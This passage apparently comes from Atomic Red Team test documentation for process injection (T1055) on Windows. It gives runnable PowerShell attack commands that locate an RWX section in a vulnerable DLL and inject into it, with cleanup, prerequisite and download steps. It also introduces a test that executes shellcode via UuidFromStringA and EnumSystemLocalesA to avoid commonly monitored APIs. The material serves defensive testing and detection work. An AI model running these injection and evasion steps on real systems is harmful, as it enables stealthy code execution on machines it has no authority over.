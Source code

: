 **Supported Platforms:** Windows

**auto_generated_guid:** 0128e48e-8c1a-433a-a11a-a5387384f1e1

#### Inputs:

| Name     | Description    | Type | Default Value                                                               |
| -------- | -------------- | ---- | --------------------------------------------------------------------------- |
| vuln_dll | vulnerable DLL | path | PathToAtomicsFolder&#92;T1055&#92;bin&#92;x64&#92;vuln_dll&#92;msys-2.0.dll |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$address = (& "$PathToAtomicsFolder\T1055\bin\x64\searchVuln.exe" "$PathToAtomicsFolder\T1055\bin\x64\vuln_dll\" | Out-String | Select-String -Pattern "VirtualAddress: (\w+)").Matches.Groups[1].Value
& "PathToAtomicsFolder\T1055\bin\x64\RWXinjectionLocal.exe" "#{vuln_dll}" $address
```

#### Cleanup Commands:

```powershell
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```

#### Dependencies: Run with `powershell`!

##### Description: Utility to inject must exist on disk at specified location (#{vuln_dll})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{vuln_dll}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{vuln_dll}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/bin/x64/vuln_dll/msys-2.0.dll" -OutFile "#{vuln_dll}"
```

<br/>
<br/>

## Atomic Test #6 - Process Injection with Go using UuidFromStringA WinAPI

Uses WinAPI UuidFromStringA to load shellcode to a memory address then executes the shellcode using EnumSystemLocalesA.
With this technique, memory is allocated on the heap and does not use commonly suspicious APIs such as VirtualAlloc, WriteProcessMemory, or CreateThread

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode/tree/master#uuidfromstringa)
- References:
  - https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
  - https://twitter.com/_CPResearch_/status/1352310521752662018
  - https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala
